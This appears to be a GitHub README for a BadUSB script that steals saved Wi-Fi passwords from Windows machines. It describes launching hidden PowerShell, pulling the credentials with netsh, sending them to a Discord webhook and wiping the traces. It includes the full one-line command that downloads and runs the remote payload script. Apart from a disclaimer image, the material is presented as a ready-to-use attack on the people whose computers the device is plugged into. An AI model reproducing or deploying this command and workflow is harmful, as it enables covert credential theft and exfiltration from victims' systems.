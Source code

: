 # WLAN Windows Password - BadUSB ✅

A script used to stole target WLAN Passwords.


**Category**: WLAN, Credentials

<div align=center>

<img src="https://raw.githubusercontent.com/Zenin0/Glitter_Scripts/main/main/img/logo-repository-2_0.gif?token=GHSAT0AAAAAACJCV62UACYVZAHZREEX64GEZJVSP5Q" width="600" /><br>
<img src="https://raw.githubusercontent.com/Zenin0/Glitter_Scripts/main/main/img/DISCLAIMER.png?token=GHSAT0AAAAAACJCV62UBQHETMSVF36BUBOKZJVTPEQ" width="600" />

</div>

## Description

A script used to stole target WLAN Passwords.

Opens PowerShell hidden, grabs wlan passwords, saves as a cleartext in a variable and exfiltrates info via Discord Webhook.

Then it cleans up traces of what you have done after.

## Getting Started

### Dependencies

* An internet connection
* Windows 10,11

### Executing program

* Plug in your device
* Invoke 2 netsh commands
* Invoke-WebRequest will be entered in the Run Box to send the content to Discord

All
```powershell
powershell -WindowStyle Hidden -Command "iex (iwr -uri 'https://raw.githubusercontent.com/Zenin0/Glitter_Scripts/main/Credentials/W-Wifi-Passwords/W-Wifi-Passwords.ps1?token=GHSAT0AAAAAACJCV62V5276FTVUNEJL35JMZJVRJAA').Content"
```

